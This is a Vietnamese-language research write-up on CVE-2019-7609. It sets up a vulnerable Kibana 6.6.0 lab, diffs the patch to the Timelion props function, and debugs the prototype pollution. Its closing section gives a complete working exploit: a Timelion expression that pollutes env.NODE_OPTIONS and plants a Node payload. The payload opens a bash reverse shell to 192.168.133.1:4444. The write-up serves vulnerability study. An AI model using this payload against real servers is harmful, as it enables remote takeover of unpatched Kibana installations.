 ```yaml
---
tag: CVE, debug
---
```

# References
[](https://nvd.nist.gov/vuln/detail/cve-2019-7609)[https://nvd.nist.gov/vuln/detail/cve-2019-7609](https://nvd.nist.gov/vuln/detail/cve-2019-7609)
[](https://github.com/mpgn/CVE-2019-7609)[https://github.com/mpgn/CVE-2019-7609](https://github.com/mpgn/CVE-2019-7609)

# Enumerate
## Cài đặt phiên bản chứa lỗi và search Description
- ./start.sh
``` d
version: "3.0"
services:
  elasticsearch:
    container_name: es-container
    image: docker.elastic.co/elasticsearch/elasticsearch:6.6.0
    environment:
      - xpack.security.enabled=false
      - "discovery.type=single-node"
    networks:
      - es-net
    ports:
      - 9200:9200
  kibana:
    container_name: kb-container
    image: docker.elastic.co/kibana/kibana:6.6.0
    environment:
      - ELASTICSEARCH_HOSTS=http://es-container:9200
    networks:
      - es-net
    depends_on:
      - elasticsearch
    ports:
      - 5601:5601
networks:
  es-net:
    driver: bridge
```
- Description
	- Các phiên bản Kibana trước 5.6.15 và 6.6.1 chứa lỗ hổng thực thi mã tùy ý trong trình hiển thị Timelion. Kẻ tấn công có quyền truy cập vào ứng dụng Timelion có thể gửi yêu cầu cố gắng thực thi mã javascript. Điều này có thể dẫn đến việc kẻ tấn công thực thi các lệnh tùy ý với quyền của quy trình Kibana trên hệ thống máy chủ.
![](./image/Pasted_image_20230306110855.png)
- Theo mô tả ở trên chúng ta sẽ tập trung vào chức năng Timelion
	- Tìm hiểu một chút về các chức năng của Timelion theo link: [](https://www.elastic.co/guide/en/kibana/current/timelion.html)[https://www.elastic.co/guide/en/kibana/current/timelion.html](https://www.elastic.co/guide/en/kibana/current/timelion.html)
	- Ở đây ta thấy chỉ có một entrypoint là khung để gọi các hàm biểu thức (Timelion expression function). Bắt đầu bằng .es hay .elasticsearch sau đó là các hàm để tương tác với dữ liệu được truy vấn từ elastic search.
- Một điều nữa là khi đọc mô tả mình tìm thấy cụm từ prototype pollution. Với lại cũng vừa được anh minh cho làm một dạng này. Vì vậy mình xoáy sâu vào các payload liên quan đến prototype polution..

## Diffcode và tìm trigger
-   Bước tiếp theo ta sẽ diff code để xem có gì đặc sắc ko. Chỉ tập trung vào các source trong path `/src/legacy/core_plugins/timelion/.`
-   Dùng winmerge ta thấy trong đó có một file đã được fix với nội dung như sau:
``` d
diff --git a/src/legacy/core_plugins/timelion/server/series_functions/props.js b/src/legacy/core_plugins/timelion/server/series_functions/props.js
index 81b74901d4db..80e9cafd6712 100644
--- a/src/legacy/core_plugins/timelion/server/series_functions/props.js
+++ b/src/legacy/core_plugins/timelion/server/series_functions/props.js
@@ -32,7 +32,7 @@ function unflatten(data) {
     let prop = '';
     let m;
     while (m = regex.exec(p)) {
-      cur = cur[prop] || (cur[prop] = (m[2] ? [] : {}));
+      cur = (cur.hasOwnProperty(prop) && cur[prop]) || (cur[prop] = (m[2] ? [] : {}));
       prop = m[2] || m[1];
     }
     cur[prop] = data[p];
```
- Vậy là có vẻ liên quan đến hàm props. Nhưng mình vẫn chưa hiểu code lắm. Nên sẽ thử debug
## Setup debug và debug
-   Thú thật vì là lần đầu nên mình mất khoảng 3,4 ngày để tìm cách set up từ port debug, inspect trên chrome đến việc gọi để set breakpoint cũng mất cả buổi chiều. Tuy nhiên mình đã làm được :)) và mình sẽ viết một bài riêng về phần debug js với chrome debugger.
    [Debug JS với Chrome Debugger](https://www.notion.so/Debug-JS-v-i-Chrome-Debugger-39432cb4c8554985b6e2bfdb3603163b)
-   Sau khi đã setup xong chúng ta sẽ đặt breakpoint vào trước đoạn code diff đã tìm được ở trên:
	![](image/Pasted%20image%2020230306140832.png)
-   Ta sẽ thử 1 kịch bản thêm một props vào theo đúng chức năng của timelion
	- Set một prop label có giá trị là minh
	    ![](./image/Pasted%20image%2020230306140439.png)
	- Lúc này các giá trị cụ thể của các biến:
		![](./image/Pasted%20image%2020230306140736.png)
	- Vào vòng while giá trị m sẽ được gán cho p. regex.exec(p) dùng để check giá trị p truyền vào có match với biến regex được được định nghĩa từ trước không.
	- Thêm 1 step nữa ta thấy m được khởi tạo thành một mảng.
			![](./image/Pasted%20image%2020230306140940.png)
	- Phần này liên quan nhiều đến regex. Mình check [regex101.com](http://regex101.com) thì thấy regex được chia thành hai capturing group là **`\\.?([^**.**\\[\\]` và `\\[(\\d+)\\]` và vì ‘label’** đều match với 2 group nên có kết quả 2 phần tử đầu trong mảng là label.
	-   Đoạn trong vòng while có thể hiểu là check phần tử nào trong mảng trống và gán giá trị cho thuộc tính prop.
	-   Sau khi thoát while, phần tử cur[prop] được gán giá trị của data[p] với val = ‘minh’

	⇒ Ta thấy mình hoàn toàn có thể điều khiển được prop của đối tượng cũng như giá trị của prop đó. Cùng với target ban đầu là protocol polution ta nghĩ ngay đến việc chèn **proto**

-   Thử với payload `.es(*).props(label.**proto**.y=minh)` sau khi debug lại ta thấy prop y đã nằm trong prototype
	![](./image/Pasted%20image%2020230306141026.png)
	
⇒ Như vậy là mình đã check được chỗ trigger prototype pollution rồi. Bước tiếp theo là tìm cách RCE

# Find RCE
- Đoạn này khá khó và ban đầu mình ko có idea gì. Mình lên GTFObin để xem có idea gì ko thì thấy hầu hết đều có liên quan đến việc phải require(child_process)
	![](./image/Pasted%20image%2020230306141328.png)
- Nên mình thử debug và nhận thấy mỗi khi click vào plugin nào kibana đều spawn new process:
- Mình bắt tay vào debug child_process thì thấy object options được khởi tạo và trong đó có props `y:’minh’` mà ban đầu mình có gán. Hơn thế prop .env nó còn được gán cho biến env.
	![](./image/Pasted%20image%2020230306141550.png)

- Vậy điều gì xảy ra nếu mình pollution một prop là __proto__.env.y : ‘minh’ ⇒ ta sẽ biến y trở thành một biến môi trường. Giờ tìm cách thực thi biến môi trường với node
## Thực thi payload trong môi trường node
- Ta có thể dùng NODE_OPTION cùng --require để thực hiện điều này:
	![](./image/Pasted%20image%2020230306141630.png)
- Check trên local:
	![](./image/Pasted%20image%2020230306141654.png)
- Oke vấn đề đặt ra nữa là làm sao để upload file js. Đến đây ta lại có giải pháp:
	- Lưu biến trong /proc/self/environ
		![](./image/Pasted%20image%2020230306141721.png)
	- Ta thấy rằng khi gán giá trị cho một biến đồng thời đọc các biến tiến trình ta thấy ngay lúc này biến payload đã được lưu.
	- Vậy ta có thể dùng NODE_OPTIONS để đọc file /proc/self/environ + payload được lưu vào /proc/self/environ ⇒ có thể thực thi được payload
		``` d
		NODE_OPTIONS='--require /proc/self/environ' payload='console.log("minh")//' node
		```
		
## Payload reverse shell
-   Chung quy lại payload của chúng ta cần hội tụ những yếu tố sau:
    -   Sử dụng NODE_OPTIONS --require để thực thi file /proc/self/environ
        `.props(label.__proto__.env.NODE_OPTIONS='--require /proc/self/environ')`
    -   Payload reverse shell trong nodejs. Cái này mình kiếm trên GTFObins
        `require(”child_process”).exec(bash -i >& /dev/tcp/192.168.133.1/4444 0>&1”);process.exit()//`
    -   Nhét payload vào biến bất kỳ để lưu vào /proc/self/environ
        `.props(label.__proto__.env.payload='require(”child_process”).exec(bash -i >& /dev/tcp/192.168.133.1/4444 0>&1”);process.exit()// ')`
    ⇒ `.es(*).props(label.__proto__.env.payload='require(”child_process”).exec(bash -i >& /dev/tcp/192.168.133.1/4444 0>&1”);process.exit()// ').props(label.__proto__.env.NODE_OPTIONS='--require /proc/self/environ')`
    
    -   Kết quả:
        - Thực hiện truyền payload vào input trong Timelion
			![](./image/Pasted%20image%2020230306142012.png)
	- Click vào canvas để hệ thống sinh tiến trình con
			![](./image/Pasted%20image%2020230306142056.png)
	- Reverse shell
			![](./image/Pasted%20image%2020230306142119.png)
	